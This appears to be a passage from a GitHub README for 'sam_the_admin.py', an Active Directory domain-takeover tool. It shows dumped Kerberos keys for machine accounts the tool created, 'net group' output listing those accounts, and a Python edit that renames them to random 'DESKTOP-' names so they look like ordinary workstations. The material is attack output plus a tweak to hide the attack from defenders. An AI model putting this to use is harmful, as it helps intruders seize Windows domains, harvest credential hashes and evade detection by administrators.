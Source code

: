 ```
SAMTHEADMIN-72$:aes128-cts-hmac-sha1-96:0271403dbb8479cc61ba9b6419e9788a
SAMTHEADMIN-72$:des-cbc-md5:efd39b614c196b15
SAMTHEADMIN-62$:aes256-cts-hmac-sha1-96:ebb686e9ab0a8bd7670fffa453bbafbf4597ccb5d46c1927a39859e0aa8049ab
SAMTHEADMIN-62$:aes128-cts-hmac-sha1-96:d377d5572dd1f15769d6b5ebb03900a9
SAMTHEADMIN-62$:des-cbc-md5:6d291c646dbf6b01
SAMTHEADMIN-91$:aes256-cts-hmac-sha1-96:d9f159266b528d030e375c97ba63f4d076eeba9143e4ef590aeba45b348a8272
SAMTHEADMIN-91$:aes128-cts-hmac-sha1-96:3031b7017785f9a0a84a21e7962c8c10
SAMTHEADMIN-91$:des-cbc-md5:c8ce92bca79b1f34
SAMTHEADMIN-67$:aes256-cts-hmac-sha1-96:c946319e2293c410b6b954efe815c10150b0fd18a67695ed374e6ee8a6a35960
SAMTHEADMIN-67$:aes128-cts-hmac-sha1-96:074ff951dc7667b1732f1cf105fbb6b0
SAMTHEADMIN-67$:des-cbc-md5:ada7fe83c26b190d
SAMTHEADMIN-78$:aes256-cts-hmac-sha1-96:3b822a9a645c80f2f00d8b00cd3d657eedacded7f60d3d56563b348ee0379e65
SAMTHEADMIN-78$:aes128-cts-hmac-sha1-96:bd7b8c86df42d90d354f586a72061046
SAMTHEADMIN-78$:des-cbc-md5:b6c8865764e65734
[*] Cleaning up...
```


### Check `Default container for upgraded computer accounts`  >>> `SAMTHEADMIN-xxx`


![image](https://user-images.githubusercontent.com/16593068/146150047-ec267c55-3ffe-40cd-97d3-09942dbd59b9.png)

```
C:\Users\Administrator>net group "domain computers" /domain
组名     Domain Computers
注释     加入到域中的所有工作站和服务器

成员

-------------------------------------------------------------------------------
SAMTHEADMIN-18$          SAMTHEADMIN-39$          SAMTHEADMIN-59$
命令成功完成。


C:\Users\Administrator>
```

`sam_the_admin.py` >>> 

```python 
new_computer_name = f"SAMTHEADMIN-{random.randint(1,100)}$" 
```

![image](https://user-images.githubusercontent.com/16593068/146151192-cb3e107a-0800-4427-b12e-52d99cb9c9b3.png)

Change Random 7 str , like `DETKSTOP-xxxxxxx`

```python

new_computer_name = f"DESKTOP-{''.join(random.sample(string.ascii_letters + string.digits, 7))}$" 
```
